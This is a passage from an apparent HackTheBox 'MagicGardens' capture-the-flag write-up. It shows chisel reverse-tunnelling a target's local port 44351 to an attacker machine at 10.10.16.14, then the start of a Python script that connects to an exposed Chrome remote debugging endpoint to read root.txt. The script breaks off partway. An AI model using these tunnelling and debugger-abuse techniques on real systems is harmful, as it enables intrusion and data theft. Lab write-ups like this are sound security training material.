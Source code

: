 ### Chisel

Let's tunnel port 44351 to our local attacking machine using chisel.

After transferring chisel to the target machine, we will start a client connection to our local chisel server as such:

`./chisel_linux client 10.10.16.14:9000 R:44351:127.0.0.1:44351`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/magicgardens/image-23.png)

Now on our local chisel server, we have a conection made:

`chisel server -p 9000 --reverse`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/magicgardens/image-22.png)


We can now access port 44351 from our local machine through:`http://127.0.0.1:44351/`
![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/magicgardens/image-24.png)

### Remote Debugging

From some research, it seems like there are some known vulnerabilites regarding google chrome's remote debugging. 

Using the following Python script, we will be able to read root.txt in png file format:


```bash
# poc.py
import json
import requests
import websocket
import base64

debugger_address = 'http://localhost:44351'

response = requests.get(f'{debugger_address}/json')
tabs = response.json()

web_socket_debugger_url = tabs[0]['webSocketDebuggerUrl'].replace('127.0.0.1', 'localhost')

print(f'Connect to url: {web_socket_debugger_url}')

ws = websocket.create_connection(web_socket_debugger_url, suppress_origin=True)

```
